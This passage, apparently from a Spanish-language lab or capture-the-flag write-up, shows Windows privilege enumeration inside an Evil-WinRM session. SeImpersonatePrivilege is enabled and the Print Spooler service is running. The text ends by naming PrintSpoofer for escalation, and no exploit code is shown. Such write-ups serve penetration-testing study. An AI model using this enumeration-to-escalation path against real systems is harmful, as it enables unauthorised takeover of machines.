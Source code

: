 ```bash
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeShutdownPrivilege           Shut down the system                      Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeUndockPrivilege             Remove computer from docking station      Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
SeTimeZonePrivilege           Change the time zone                      Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

> Vemos **SeImpersonatePrivilege** enable, revisamos el servicio **spooler**

```powershell
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> Get-Service -Name spooler
                                                                                                                                                                                                                  
Status   Name               DisplayName                                                                                                                                                                           
------   ----               -----------                                                                                                                                                                           
Running  spooler            Print Spooler 
```
Podemos escalar privilegios con PrintSpoofer:
